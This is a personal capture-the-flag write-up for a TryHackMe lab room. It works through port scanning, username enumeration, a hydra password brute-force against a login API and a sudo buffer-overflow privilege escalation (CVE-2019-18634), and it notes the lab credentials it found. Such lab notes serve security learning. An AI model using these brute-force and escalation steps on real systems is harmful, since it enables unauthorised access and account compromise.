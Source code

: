 # Matheus Jesus 12-04-2020

## Try Hack Me - Hacker Note (https://tryhackme.com/room/hackernote)

### IP 10.10.229.108

#### Recon

nmap -sC -sV -oN nmap_initial 10.10.229.108

ssh on 20

golang http server on 80
golang http server on 8080

#### Investigation

##### User Enum reference - https://github.com/NinjaJc01/hackerNoteExploits

created an account admin:admin on /login

wrong username says invalid username or password

wrong password says logging you in for an instant (this means we can enumerate users)

script on go -> maybe refactored

found admin and james users

james is our user to be attacked

##### James Hint - "Hint: My favourite colour and my favourite number"

##### Combine password reference https://github.com/hashcat/hashcat-utils/releases

Downloaded a colors.txt wordlist

generated a crunch 1 2 0123456789 > numbers.txt wordlist

./combinator.bin colors.txt numbers.txt > combined.txt

hydra -l james -P combined.txt 10.10.229.108 http-post-form /api/user/login:{"username":"^USER^", "password":"^PASS^}:failed

hydra is getting fucked by the post api with body

try patator.py

##### found james:blue7

login on the platform

##### James Note - So that I don't forget, my SSH password is dak4ddb37b

#### Escalate

The perl command shows the OS is not patched against CVE-2019-18634

perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
[sudo] password for james: Segmentation fault (core dumped)

##### Exploit reference https://github.com/saleemrashid/

gcc escalate.c -o run
chmod +x run
./run

DONE !!

# References

Further reading

## Timing attacks on logins

https://seclists.org/fulldisclosure/2016/Jul/51
https://www.gnucitizen.org/blog/username-enumeration-vulnerabilities/
https://wiki.owasp.org/index.php/Testing_for_User_Enumeration_and_Guessable_User_Account_(OWASP-AT-002)

## Adobe Password Breach

https://nakedsecurity.sophos.com/2013/11/04/anatomy-of-a-password-disaster-adobes-giant-sized-cryptographic-blunder/

## Sudo CVE

https://dylankatz.com/Analysis-of-CVE-2019-18634/
https://nvd.nist.gov/vuln/detail/CVE-2019-18634
https://tryhackme.com/room/sudovulnsbof
